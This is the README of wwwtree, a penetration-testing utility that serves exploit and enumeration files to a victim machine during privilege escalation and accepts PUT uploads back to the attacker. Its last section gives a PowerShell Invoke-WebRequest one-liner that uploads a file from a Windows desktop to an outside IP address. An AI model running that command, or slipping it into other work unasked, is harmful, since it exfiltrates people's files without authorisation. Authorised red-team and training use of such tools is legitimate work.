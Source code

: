 # wwwtree
[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.x-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">
[![License](https://img.shields.io/badge/License-MIT-red.svg)](https://github.com/t3l3machus/wwwtree/blob/main/LICENSE)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

## Purpose
A utility for quickly and easily locating, web hosting and transferring resources (e.g., exploits/enumeration scripts) from your filesystem to a victim machine during privilege escalation.

### Preview
![image](https://user-images.githubusercontent.com/75489922/204158750-90ad250c-7787-4fde-92c3-99dae65e5444.png)

## Description
wwwtree does the following:
 - hosts a specified root directory and prints the contents in a tree-like format. Every file is translated to it's equivalent server URL path so you can quickly copy it and use a web client to transfer it to the victim.
 - Filters out files that contain specific substrings based on user provided keywords (use `-k` to parse comma seperated values). Handy for quickly locating resources saved in deep and populated directory structures.
 - Automatically hides from the output files and folders that are most likely not in the scope of enumeration / exploitation (e.g., txt, yml, docx files or .git directories). You can control this behaviour by editing the list variables `hide_extensions` and `hide_dirs` in the source.
 - The wwwtree python http server handler supports PUT requests and by default saves files in `/tmp` (you can change that in the source). You can use it to transfer files from the victim to the attacker machine.


## Installation & Usage
```
git clone https://github.com/t3l3machus/wwwtree
cd ./wwwtree
pip3 install -r requirements.txt
chmod +x wwwtree.py

wwwtree.py [-h] -r ROOT_PATH -i INTERFACE [-l LEVEL] [-p PORT] [-k KEYWORDS] [-A] [-q]
```

### PUT Requests
I've noticed that curl on Windows seems to work improperly when trying to transfer large files. Powershell's `Invoke-WebRequest` works much better:
```
powershell -c "invoke-webrequest -method PUT -headers @{'Content-Type'='application/vnd.openxmlformats-officedocument.spreadsheetml.sheet'} -usebasicparsing -uri http://192.168.111.135/testt -body (get-content C:\Users\pxart\Desktop\some_file.xlsx)"
```
